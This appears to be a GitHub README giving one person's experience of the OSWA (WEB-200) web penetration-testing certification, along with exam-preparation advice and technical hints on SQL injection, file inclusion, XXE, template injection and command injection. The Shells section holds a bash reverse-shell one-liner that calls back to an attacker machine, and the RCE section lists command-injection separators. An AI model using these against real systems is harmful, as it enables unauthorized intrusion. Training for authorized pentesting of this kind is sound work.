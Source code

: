 # OSWA Experience And Exam Preparation Guide
My Offensive Security OSWA certification experience and my personal opinion what helps in preparation for the exam 

## About OSWA/Web-200
### Content
The Offensive Security Web Assessor is the certification based on the web-200 course.
The goal of the web-200 course is to enable the participant to perform black box web application penetration tests.
Therefore, the course covers every relevant topic a pentest needs in these kind of penetration tests.
For a more detailed view regarding the content you can view the following resources:
- https://www.offensive-security.com/web200-oswa/
- https://www.offensive-security.com/documentation/WEB-200-Syllabus.pdf

### Exam
If you already took the OSCP certification of Offensive Security, the exam details probably sound very similar in your ears. The following points are some basic facts about the exam:
- 24 hours happy hacking
- 24 after the hacking part finished you need to have uploaded your pentest report
- 5 machines to pwn
- every machine has a local.txt and a proof.txt
- a total number of 100 points can be achived
- you need 70 points and a valid pentest report to pass the exam

If you want to know more details feel free to visit the official exam guide: https://help.offensive-security.com/hc/en-us/articles/4410105650964

## My Preparation and Experience
I would consider myself as a pentester with some decent level of experience. But I have to admit that the time frame in this certification probably makes it even for more experienced pentesters not like a walk in the park. So, for me the key to pass the exam were different points:
- go completely through the course material (even if you think you already know everything... there might be tips and tricks you did not know)
- clear all exercises 
- clear all challenge labs
- watch all videos (repition is the key to learn things)
- **make some write up of the course where write down commands in a copy/paste style, so you can recycle them during your exam (I did this several times)**
- if you have a subscription I would highly recommend doing the proving ground boxes provided by Offensive Security to gain speed in solving boxes
- speed, speed, speed... you need speed in clearing web application based CTF boxes to get fast enough to clear the exam boxes in the given time (basically you have about 3 to 3.5 hours per box if you at least want to have some sleep during the exam)
- parallelize tasks (e.g.: if you are performing some kind of dir busting, manually look at the target website and look for the juicy spots)
- be consequent: if you realize you are totally stuck, switch the target and come back later
- make screenshots from every of your exploitation steps in the moment you are successfully exploiting the target (you will need them during the reporting part)

## Syllabus Related Hints
In this section I will pick a few topics out of the syllabus and give some technical hints.
### Tools
#### Wordlists
Beside the standard Kali linux wordlists located under `/usr/share/wordlists` I think the seclists package is a premium set of wordlists which fits most needs. Especially it has lists connected to certain vulnerabilities like SQL-Injection, Local File Inclusion, Server-side Template Injection and so on which comes in handy for several topics of the web-200 course.
```bash
sudo apt-get install -y seclists
cd /usr/share/seclists/
```
#### Shells
During the course and the exam you will have to identify/exploit different kind of vulnerabilities which might lead to some kind of remote code execution. Therefore it is always useful to get reverse shell connecting to your kali machine instead of exploiting the vulnerability again and agin. For me in most cases the standard `bash` back connect shell worked great (under linux of course)
```bash
bash -c 'bash -i >& /dev/tcp/<KALI-IP>/9090 0>&1'
```
Sometimes it is useful to upgrade this shell to a fully interactive one
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
CTRL+Z
```bash
stty raw -echo; fg
```
Now you should have a fully interactive shell. This sometimes is needed when you do some kind of privilege escalation stuff. (not part of web-200)

### SQL-Injection
- `seclists` has awesome wordlists to manually detect SQL injection vulnerabilities using tools like `wfuzz` or `burpsuite`: `/usr/share/seclists/SQLi`
- one word regarding `SQLMap`: this tool is allowed during the exam
- however, in my experience `SQLMap` often fails even when there is an SQL-Injection
- I usually use `SQLMap` only after I identified the vulnerability manually and only use it to exfiltrate data when manual exfiltration is to expensive
- Therefore I parameterize `SQLMap` that it does not send useless requests to the target, because the tool is noisy as hell and (depending on the configuration) influences the integrity of the database
- When you identified an injection it is cruical that you have a good cheat sheet available, so you can exfiltrate data in a copy paste style
  - https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
  - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
  - https://portswigger.net/web-security/sql-injection/cheat-sheet

### Directory Traversal and Local File Inclusion
- general test cases: https://zsahi.wordpress.com/2018/09/10/file-inclusion/
- useful wordlists to combine with `wfuzz` or `burpsuite`: `/usr/share/seclists/Fuzzing/LFI/`

### XML External Entity Attack
- Know how to idenfitiy this kind of vulnerability
- it is often overlooked in the real world
- every point where the application might parse XML is a potential dangerous sink where you can test for it
- get used to how to read files by exploiting an XXE attack "visibly" and blind
  - https://portswigger.net/web-security/xxe
  - https://portswigger.net/web-security/xxe/blind

### Server-side Template Injection
#### identify
- often overlooked
- identifying is not always easy 
- you need to identify what kind of technology/framework is used on the target machine
- then it is a good idea to perform some basic tests to identify if templates are used at all and the website is vulnerable
- `seclists` provides a good wordlist to detect SSTIs: `/usr/share/seclists/Fuzzing/template-engines-expressions.txt`
- The following picture gives an overview what template engine might be in use if certain tests succeed: https://portswigger.net/web-security/images/template-decision-tree.png

#### exploit
- the exploitation impact ranges from XSS to RCE depending on the template engine used
- RCEs for apache freemarker, twig and pug/jade: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

### Remote Code Execution
Try to think what the target application might do in the backend to look for reasonable sinks. When you identified a potential injection point you usually have to escape from the original command and inject your own.

#### Command Seperators
- `&`
- `&&`
- `|`
- `||`
- `;` (no Windows CMD)
- `0x0a` (no Windows CMD)
- `\n` (no Windows CMD)
- ``` `whoami` ``` (no Windows CMD)
- `$(whoami)` (no Windows CMD)

#### Good Reads
- https://www.hackedu.com/blog/owasp-top-10-mini-series-command-injection
- https://book.hacktricks.xyz/pentesting-web/command-injection
